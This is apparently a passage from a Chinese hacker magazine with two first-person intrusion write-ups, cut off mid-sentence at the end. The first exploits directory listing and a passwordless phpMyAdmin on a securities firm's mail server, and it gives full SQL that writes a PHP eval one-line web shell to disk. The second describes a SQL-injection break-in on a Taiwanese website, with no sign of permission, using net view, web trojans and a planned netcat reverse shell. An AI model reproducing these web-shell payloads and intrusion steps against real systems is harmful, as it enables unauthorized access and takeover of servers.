

图15





图2

我们东北下了 2005 年的第一场雪，真的比以往来得晚了一些。N 久没写东西了，今天就活动一下筋骨，权当作是“骗”点稿费吧！其实我很久就发现了一个问题，就是国内的很多主机都有目录浏览权限，以 MAIL（邮件）系统的问题较为严重。我的一个朋友是搞证券的，公司做了一个网站，顺便让我帮他检测一下网站的安全性，我一话没说就答应了。我大概看了一下网站，拿的似乎用的是 JSP+Oracle 架构，经过我的一番“狂轰乱炸”，发现安全性做得还是挺不错的，后来才得知是“XX 网络安全公司”做的安检。

一个链接都没有，怎么找啊？对了，不是有图片吗！看看图片的链接是什么，如图2（其实看网页的源码也可以找到一些目录的）。看来这是最“值钱”的信息了，夺取整站系统就靠它了！直接在地址栏中输入 `http://mail.xxx.com.cn/wdpost/`，如图3，心中暗喜，终于找到线索了！文件好多啊！没办法，一个一个看吧！原来 MAIL 系统使用的是 PHP，UNIX 主机，与 WEB 服务器是分开的，大部分文件都是 PHP 和 HTML 格式的。



图1



图3

根据以往的经验，应该多找些目录，看看是否真的像我说的那样存在“目录浏览”权限的漏洞。就这么一个登录界面，连登录后才能访问，只有一些 HTML 文件可以浏览，通过这些文件我们也可以看出登录 MAIL 以后的大概情况。找了很久也没有找到有利用价值的东西，心里有些郁闷了，抽了一颗“中南海”（小编友情提示，吸烟有害健康！），稳定了一下情绪。工夫不负有心人啊！在“wp_suadmin\main_hd.htm”这个文件里终于找到了我最想要的东西，如图4。



图4

看到“数据库管理”这几个字了吗？点击就会进到“PHPMyAdmin”的管理界面，居然密码为空（图5）。唉，文章开头我还表扬他们网站的安全性呢，想不到这么不禁夸。



图5

到了这里我想大家都会了吧！那就是利用 MYSQL 导出一个 SHELL，说干就干！

先看一下 PHP 的信息，SQLMyAdmin 里面提供了这个功能（图6），看到绝对路径为“/mail/wdpost/http/htdocs/web_dbadmin”，那我们开始导出 SHELL 吧！为了删除方便我新建了一个库，万一搞错了就不好了，安全第一嘛！在 SQL 的查询中输入以下代码：



图6

```sql
create database 20ntshell;
use 20ntshell;
create table shell (bin text);
insert into shell (bin) values ('<?php eval($_POST[bin]);?>');
```

我解释一下，上面这段代码就是新建一个名为 20ntshell 的库，然后再创建一个名为 shell 的表，字段为 bin，类型为 text，再向该字段写入一句话后门。



图7

向该表中写入经典的一句话后门，点击提交（图7），看样子成功了，否则会提示出错的。数据添加完了，该导出 shell 了。接着在 SQL 查询中输入以下代码：`select * into outfile '/mail/wdpost/http/htdocs/web_dbadmin/libraries/bin.php' from shell;` 这句代码的意思是将一句话后门导出为 bin.php，再次点击提交（图8），没有出错，成功了！这里还要说明一点，导出的目录要有写权限，导出的文件名不可以是存在的，否则会出错的。



图8

最激动人心的时刻到来了，我们用客户端连接一下看看效果（图9），哈哈！成功了。我们来写一个更为强大的 PHPSPY 看看。嗯！不错我很满意（图10），最后可不要忘了删除刚才我们建的那个库。整个过程就是这样。



图9



图10

由于本人对 UNIX 系统不是很了解，只能到这儿了。没什么太高深的技术性可言，正如我说的那样，国内的 N 多主机都存在类似的问题。请大家不要轻易地去破坏，真正的安全是靠大家去维护的。

# 对台湾某网站的一次入侵

shadan & errorwww

做菜鸟也有些年头了，看着《黑客 X 档案》上的文章，心头总有些痒痒的，最近闲着好像不如意，就拿台湾的网站练练手吧！我们的目标是找一个台湾存在 SQL 注入点的网站，网站使用的是 SQL 数据库，拥有 SA 权限。

经过我们的耐心搜寻，总算找到一个合适的目标：`http://starparty.xxx.com.tw/`，如图1所示。



图1



图3

接下来就是通过猜解表名、列名和记录来获取相关的信息，以及猜解后台路径来进行上传，但我们没有这样做，而是直接利用 NB 前工具进行下一步的工作，如图2。



图2



图4

首先在此电脑上查找网站可能的目录，由于 C 盘没有 Inetpub 目录，所以在此电脑上的可能性不大，结果依然没有找到，说明网站与数据库不在同一主机上。那就在相邻主机中查找吧。在 NB 命令文本中输入：`net view`，显示出了与对方电脑同在一网络内的共享主机，如图5，来不得半点偷懒，慢慢找吧。

我们准备上传 NC，用于反弹 SHELL，可是 NB 上传 EXE 文件不成功（测试传 BAT 文件，也没有成功），其它的字符文件可以顺利上传。于是我们先上传一个网页木马，然后利用网页木马再上传。说做就做，先上传一个 2006 海阳顶端木马，如图3。显示上传成功后，在 NB 命令文本中输入如下：`dir c:\`，居然没有看到可爱的海阳木马，郁闷，再来换个小马试一试，从工具中取出小马 `save.asp`，上传成功，看来海阳肯定是被杀毒软件给 Kill 掉了。如图4所示，我们的小马在 C 